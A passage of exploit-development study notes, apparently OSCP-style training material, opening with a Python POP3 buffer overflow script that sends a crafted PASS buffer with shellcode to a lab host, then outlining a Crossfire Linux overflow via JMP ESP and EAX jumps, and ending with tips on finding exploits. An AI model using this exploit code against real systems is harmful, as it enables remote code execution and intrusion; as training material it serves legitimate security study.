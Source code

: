 ```py
buffer = 'A' * 2606 + '\x8f\x35\x4a\x5f' + '\x90' * 16 + shellcode + 'C' * (3500 - 2606 - 4 - 351 - 16)

try:
    print 'Sending buffer...'
    s.connect(('192.168.1.23', 110))
    s.recv(1024)
    s.send('USER username\r\n')
    s.recv(1024)
    s.send('PASS {}\r\n'.format(buffer))
    print('Done')
except:
    print 'Could not connect to POP3'
```

# Linux Buffer Overflows
`edb --run [binary]`

Double press run. To search for JMP ESP, Ctrl-O, Jump Equivalent to ESP -> EIP, select first region, Find. As per usual, find a suitable place to store the shellcode, by referring to the registers. In Crosfires case, it looks like you can't store much at the ESP, only 7 bytes, so no shellcode can be stored there. We also notice EAX points to the start of the buffer (`(setup sound ...`), so let's store the shellcode after `(setup sound `, and use those 7 bytes at ESP to be first-stage shellcode to JMP to EAX + len(`(setup sound `). Overwrite EIP > JMP to a JMP ESP > JMP ESP > ADD EAX, 12 > JMP EAX > Shellcode.

Note on indirect offset jumping, `jmp esp+20` is not possible, `jmp [esp+20]` loads the value at `esp+20`, which is not intended. Instead, `lea eax, [esp+20]; jmp eax` or `sub esp, 20; jmp esp`. https://forums.offensive-security.com/showthread.php?5745-crossfire-bind-vs-reverse-shell&p=59289#post59289

Note on exploiting crossfire server, run it as a standalone, not in edb, otherwise shell will not respond to commands. https://forums.offensive-security.com/showthread.php?5745-crossfire-bind-vs-reverse-shell&p=59289#post59289

# Exploits

## Searching Exploits
There are many fake exploits in the wild, many often causing harm to your system. Where can you find reliable sources for public exploit code?

* Exploit Database - https://www.exploit-db.com/
* SecurityFocus - https://www.securityfocus.com/vulnerabilities

In Kali, you can use `searchsploit [query]` to find exploits. Use `searchsploit -u` to pull latest updates.

## Customizing and Fixing Exploits
Many exploits are one shots, meaning if they are unsuccessful, the service will crash. For that reason, never run an exploit without first examining the code and understand the inner workings. Once done, set up a small dev environment which matches the OS version and vulnerable software version, in order to test and improve existing exploits. Once we are fairly certain that our fixed exploit will work on the target machine, we can then proceed to launch it against our victim.
